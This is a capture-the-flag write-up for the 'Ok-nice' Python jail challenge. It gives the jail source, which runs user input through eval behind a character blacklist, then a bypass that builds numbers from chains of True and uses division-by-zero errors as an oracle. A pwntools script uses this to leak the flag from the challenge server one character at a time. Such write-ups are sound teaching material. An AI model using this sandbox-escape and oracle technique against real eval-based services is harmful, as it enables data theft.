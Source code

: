# Ok-nice

Category: MISC

Points: 152

Solves: 66

>Ok nice

### Solution

```py
#!/usr/bin/env python3
flag = open('flag.txt').read()

print("Welcome to the jail! It is so secure I even have a flag variable!")
blacklist=['0','1','2','3','4','5','6','7','8','9','_','.','=','>','<','{','}','class','global','var','local','import','exec','eval','t','set','blacklist']
while True:
	inp = input("Enter input: ")
	for i in blacklist:
		if i in inp:
			print("ok nice")
			exit(0)
	for i in inp:
		if (ord(i) > 125) or (ord(i) < 40) or (len(set(inp))>17):
			print("ok nice")
			exit(0)
	try:
		eval(inp,{'__builtins__':None,'ord':ord,'flag':flag})
		print("ok nice")
	except:
		print("error")
```

Looks like yet another pyjail with a blacklist. Furthermore, `sp ! " # $ % & ' ~` and non ascii chars are also banned. We also have a length restriction for 17 **unique** (this is important) characters with `len(set(inp))>17`. Finally, our input will be evaled but with no builtins but `ord` and `flag` will be defined.

From this, we can assume that we need to leak characters of the flag as we only have `flag` and `ord` (which tells us the ascii value of a char). Also, even though builtins are removed, we can still use [python keywords](https://www.w3schools.com/python/python_ref_keywords.asp), eg `(ord)is(ord)` would return `True`. Looking through the keywords, the most useful would be `True` as we can treat it as the number `1` and it won't be banned (uppercase T clutch :pray:). eg `flag[True]` would return the 2nd element. Now, we also see that `+` sign isn't banned either so we can easily index every element in the flag with `flag[True+...+True]` (We can get `flag[0]` with `flag[False]` but this isn't needed). Since we are repeating `True` over and over again we only use 11 unique chars at this point `flag`, `True`, `[]+`.

But if we have the chars of the flag, how do we leak information from them. My first thought was to leak info through errors, since we would get `error` instead of `ok nice`. To do this we can use `Division by Zero` error (assert is banned due to lowercase t). For example, if we have the char `i` we can get an error with `1/(ord('i')-105)` since the bottom would evaluate to `0`. So to do this with the flag we could do `1/(ord(flag[idx])-guess)` and when we get an error, we'll know the ascii value for `flag[idx]`. Although numbers are banned, with can replace `1` and our `guess` with a chain of `True` again. We also will only introduce 6 more unique chars with `od` (`r` is in `True`) and `()/-`, getting us perfectly to 17 unique chars. So our final payload will be:

```py
True/(ord(flag[True+...+True])-(True+...+True))
```

We can write a simple script to test all chars:

```py
from pwn import *

rc = remote("ok-nice.chal.imaginaryctf.org", 1337)
flag = "i"
# index of flag to text
idx = 1
while True:
    # loop through possible ascii value range
    for i in range(30,128):
        rc.recvuntil(b"Enter input: ")
        # format payload with idx True's for flag index and i True's for ascii value
        payload = "True/(ord(flag[True" + "+True"*(idx-1) + "])-(True" + "+True"*(i-1) + "))"
        payload = bytes(payload, "ascii")
        rc.sendline(payload)
        # if error then we know it's the correct ascii value
        if rc.recvline().strip() == b"error":
            flag+=chr(i)
            break

    idx+=1
    print(flag)
    if(flag[-1] == "}"): break
```

```
[+] Opening connection to ok-nice.chal.imaginaryctf.org on port 1337: Done
ic
ict
...
ictf{0k_n1c3_7f4d3e5a6b
ictf{0k_n1c3_7f4d3e5a6b}
```

ok nice, we got the flag.

### Flag

```ictf{0k_n1c3_7f4d3e5a6b}```